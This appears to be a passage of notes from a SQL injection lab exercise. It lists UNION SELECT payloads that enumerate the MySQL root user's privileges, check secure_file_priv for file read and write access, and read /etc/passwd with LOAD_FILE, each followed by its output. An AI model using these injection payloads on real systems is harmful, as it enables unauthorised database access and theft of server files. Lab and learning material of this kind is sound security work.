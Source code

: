 `0' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user WHERE user="root"-- -`

Y

## Find our all privialage of root user

`0' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`

'root'@'localhost' 	SELECT 	4 	5
'root'@'localhost' 	INSERT 	4 	5
'root'@'localhost' 	UPDATE 	4 	5
'root'@'localhost' 	DELETE 	4 	5
'root'@'localhost' 	CREATE 	4 	5
'root'@'localhost' 	DROP 	4 	5
'root'@'localhost' 	RELOAD 	4 	5
'root'@'localhost' 	SHUTDOWN 	4 	5
'root'@'localhost' 	PROCESS 	4 	5
'root'@'localhost' 	FILE 	4 	5  <---------------------- This is privilage to write/read file, very important
'root'@'localhost' 	REFERENCES 	4 	5
'root'@'localhost' 	INDEX 	4 	5
'root'@'localhost' 	ALTER 	4 	5
'root'@'localhost' 	SHOW DATABASES 	4 	5
'root'@'localhost' 	SUPER 	4 	5
'root'@'localhost' 	CREATE TEMPORARY TABLES 	4 	5
'root'@'localhost' 	LOCK TABLES 	4 	5
'root'@'localhost' 	EXECUTE 	4 	5
'root'@'localhost' 	REPLICATION SLAVE 	4 	5
'root'@'localhost' 	REPLICATION CLIENT 	4 	5
'root'@'localhost' 	CREATE VIEW 	4 	5
'root'@'localhost' 	SHOW VIEW 	4 	5
'root'@'localhost' 	CREATE ROUTINE 	4 	5
'root'@'localhost' 	ALTER ROUTINE 	4 	5
'root'@'localhost' 	CREATE USER 	4 	5
'root'@'localhost' 	EVENT 	4 	5
'root'@'localhost' 	TRIGGER 	4 	5
'root'@'localhost' 	CREATE TABLESPACE 	4 	5
'root'@'localhost' 	DELETE HISTORY 	4 	5

## Find our where user can read/write in server

`0' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`

SECURE_FILE_PRIV 		4 	5   <------- third column is blank meaning this user can write/read all directories (Very Good)

## Read password from server (Not important for this hacking task)

`0' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- -`
